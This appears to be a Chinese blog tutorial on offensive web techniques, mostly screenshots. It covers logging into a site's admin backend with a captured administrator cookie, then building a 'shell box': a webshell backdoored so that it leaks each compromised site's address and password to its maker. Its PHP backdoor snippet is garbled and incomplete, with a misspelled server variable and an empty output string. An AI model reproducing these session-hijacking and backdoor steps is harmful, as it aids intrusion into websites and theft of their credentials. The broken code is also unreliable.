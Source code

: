

然后我们使用postman进行连接

当我们不使用cookie登录返回的是这个内容

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ib5h2wqfhicqO0Ty8Al5JLVIbfGJDBUwlU5nGog1PIQC9Y5bIpiblr2srA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



  我们使用cookie直接就是返回了我们的后台，所以我们只要获取到了管理员cookie和后台地址就可以利用cookie进行登录

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibJLAxnvT7AicBnsdpWDmbamCV4lh58shuHwib2H4wXSfEjpHzyicIJ4Ktg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



**shell****箱子**

利用在webshell程序中，植入后门，形成“黑吃黑”，用有后门的木马入侵的网站也就被木马制造者利用。

1. 搭建一个asp的服务器，我们这里选用小旋风进行搭建http://lt.yx12345.com:90/yasuobao/jyx12345xiaoxuanfenglinshiaspfuwuqiminiban.zip下载完成后解压到虚拟机里面。

2. 2.默认端口为80 如果80端口被占用或不想用80可用记事本打开mian.boX修改至你要的端口。

   

   ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibd4j2MC5QKDzz3VCyUic8yNNJBr3flicu98x4OT2YQY7WWHgpQtuNELlA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



3.将下载好的webshull箱子放在搭建好的服务器里面

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibo15LKict5OvCibo6dCOmZicFmSbAia5yLRvC6mbXQKV0TjNFtUQkMDyrWg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

将他原有的index.asp改为webshell的网页



4.打开webshell

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ib5qicBHEdW4ynDpUP2aIEKvGZKhIcjiaibZb7LBUmC1XW2ZWdMks6yRTZQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



首先去GitHub上去找一个webshell后门

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibDUX7JhdvNk35rqTbojGdXYIlltn9j2XGBMvcgEakVLY5TyicVfmdHUw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

然后写入我们自己的后门



- 
- 
- 

```
$password='admin';$url=$SERVER['HTTP_HOST'].$SERVER['PHP_SELF'];echo "";
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicKheicW1rMB4bP1sK2pfib4ibLUZWmtaLABWlpxzf7ugrRmGKl1Td39qotcDPRXZX6YIciaMgI98D6pA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

